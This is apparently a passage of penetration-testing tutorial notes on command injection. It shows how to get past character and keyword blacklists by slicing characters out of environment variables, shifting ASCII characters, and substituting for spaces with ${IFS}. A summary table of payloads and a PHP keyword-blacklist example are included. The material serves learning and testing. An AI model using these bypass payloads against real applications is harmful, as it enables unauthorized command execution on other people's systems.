 #### Example: Extract `\` from environment variable

```powershell
$env:HOMEPATH[0]
# Output: \
```

✅ Use `$env:HOMEPATH[0]` to inject a backslash.

> Use:

```powershell
Get-ChildItem Env:
```

to enumerate all environment variables in PowerShell.
## Summary: Blacklist Bypass Methods

| Technique                     | Example Payload / Usage          | Result             |
| ----------------------------- | -------------------------------- | ------------------ |
| Substring on `$PATH`      | `${PATH:0:1}`                    | `/`                |
| Substring on `$LS_COLORS` | `${LS_COLORS:10:1}`              | `;`                |
| ASCII char shifting       | `$(tr '!-}' '"-~' <<< [)`        | `\`                |
| CMD substring             | `%HOMEPATH:~6,-11%`              | `\`                |
| PowerShell indexing       | `$env:HOMEPATH[0]`               | `\`                |
| Space bypass recap        | `${IFS}`, `%09`, brace expansion | Simulate space/tab |
## Tools & References

- `printenv` (Linux): list environment variables    
- `man ascii`: check ASCII values   
- `PayloadsAllTheThings`: creative bypasses
    - [Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md)
# Bypassing Blacklisted Commands

When applications implement command word blacklists, even previously successful payloads may get blocked if they contain specific keywords like `whoami`, `cat`, `id`, etc.

Blacklisted commands are usually matched as full strings, so with obfuscation, we can bypass exact matching filters while still executing the intended command.

### PHP Example: Command Word Blacklist

```php
$blacklist = ['whoami', 'cat', ...];
foreach ($blacklist as $word) {
    if (strpos($_POST['ip'], $word) !== false) {
        echo "Invalid input";
    }
}
```
